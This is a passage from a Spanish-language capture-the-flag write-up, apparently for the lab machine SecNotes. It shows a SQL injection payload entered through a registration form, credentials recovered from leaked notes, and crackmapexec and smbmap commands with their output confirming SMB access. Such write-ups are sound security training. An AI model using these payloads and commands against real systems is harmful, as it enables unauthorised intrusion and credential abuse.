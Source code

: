 ````bash
|   311:
|_    Message signing enabled but not required
`````

## Enumeracion

Puerto 80

En la ruta http://10.10.10.97 tenemos un panel de autenticaion que nos permite registrarnos.

>Es buena practica intentar inyecciones SQL en los cuestionarios de resgitro.

Si registro una inyeccion SQL tipica ``' or 1=1-- -'``, tengo acceso a informacion resgitrada por otros usuarios .

En una de las notas hay unas credenciales ``tyler / 92g!mA8BGjOirkL%OG*&``, con crackmapexce compruebo las credenciales .

![imagen-de-prueba](/assets/img/secnotes/Captura%20de%20pantalla%20(139).png)
_Image Secnotes_

![imagen-de-prueba](/assets/img/secnotes/Captura%20de%20pantalla%20(140).png)
_Image Secnotes_

![imagen-de-prueba](/assets/img/secnotes/Captura%20de%20pantalla%20(141).png)
_Image Secnotes_

![imagen-de-prueba](/assets/img/secnotes/Captura%20de%20pantalla%20(142).png)
_Image Secnotes_


````bash
cme smb 10.10.10.97 -u 'tyler' -p '92g!mA8BGjOirkL%OG*&'
SMB         10.10.10.97     445    SECNOTES         [*] Windows 10 Enterprise 17134 (name:SECNOTES) (domain:SECNOTES) (signing:False) (SMBv1:True)
SMB         10.10.10.97     445    SECNOTES         [+] SECNOTES\tyler:92g!mA8BGjOirkL%OG*& 
````

Son validas las credenciales.

Puerto 445.

Con ``smbmap`` y las credenciales buscamos si hay recursos compartidos.

````bash
❯ smbmap -H 10.10.10.97 -u 'tyler' -p '92g!mA8BGjOirkL%OG*&'
[+] IP: 10.10.10.97:445	Name: secnotes.htb                                      
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	new-site                                          	READ, WRITE	
`````
